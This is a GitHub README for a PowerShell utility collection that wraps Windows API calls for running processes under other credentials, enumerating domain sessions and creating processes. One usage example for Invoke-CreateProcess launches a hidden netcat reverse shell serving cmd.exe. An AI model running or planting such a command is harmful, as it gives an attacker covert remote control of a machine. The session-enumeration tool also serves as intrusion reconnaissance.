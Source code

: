 # PowerShell-Suite

There are great tools and resources online to accomplish most any task in PowerShell, sometimes however, there is a need to script together a util for a specific purpose or to bridge an ontological gap. This is a collection of PowerShell utilities I put together either for fun or because I had a narrow application in mind.

As such the mileage you get out of them may vary but feel free to post issues or fork & adapt!

## Windows API

Some resources to consult on Windows API access from PowerShell:
* FuzzySecurity: [Low-Level Windows API Access From PowerShell](http://www.fuzzysecurity.com/tutorials/24.html)
* Microsoft TechNet: [Use PowerShell to Interact with the Windows API](https://blogs.technet.microsoft.com/heyscriptingguy/2013/06/25/use-powershell-to-interact-with-the-windows-api-part-1/)
* Exploit Monday: [Accessing the Windows API in PowerShell via internal .NET methods and reflection](http://www.exploit-monday.com/2012/05/accessing-native-windows-api-in.html)
* Exploit Monday: [Deep Reflection - Defining Structs and Enums in PowerShell](http://www.exploit-monday.com/2012/07/structs-and-enums-using-reflection.html)

### Invoke-Runas

Functionally equivalent to Windows "runas.exe", using Advapi32::CreateProcessWithLogonW.

```
Start cmd with a local account.
C:\PS> Invoke-Runas -User SomeAccount -Password SomePass -Binary C:\Windows\System32\cmd.exe -LogonType 0x1

Start cmd with remote credentials. Equivalent to "/netonly" in runas.
C:\PS> Invoke-Runas -User SomeAccount -Password SomePass -Domain SomeDomain -Binary C:\Windows\System32\cmd.exe -LogonType 0x2
```

### Invoke-NetSessionEnum

Use Netapi32::NetSessionEnum to enumerate active sessions on domain joined machines.

```
Enumerate active sessions on "SomeHostName".
C:\PS> Invoke-NetSessionEnum -HostName SomeHostName
```

### Invoke-CreateProcess

Use Kernel32::CreateProcess to achieve fine-grained control over process creation from PowerShell.

```
Start calc with NONE/SW_SHOWNORMAL/STARTF_USESHOWWINDOW
C:\PS> Invoke-CreateProcess -Binary C:\Windows\System32\calc.exe -CreationFlags 0x0 -ShowWindow 0x1 -StartF 0x1

Start nc reverse shell with CREATE_NO_WINDOW/SW_HIDE/STARTF_USESHOWWINDOW
C:\PS> Invoke-CreateProcess -Binary C:\Some\Path\nc.exe -Args "-nv 127.0.0.1 9988 -e C:\Windows\System32\cmd.exe" -CreationFlags 0x8000000 -ShowWindow 0x0 -StartF 0x1
```
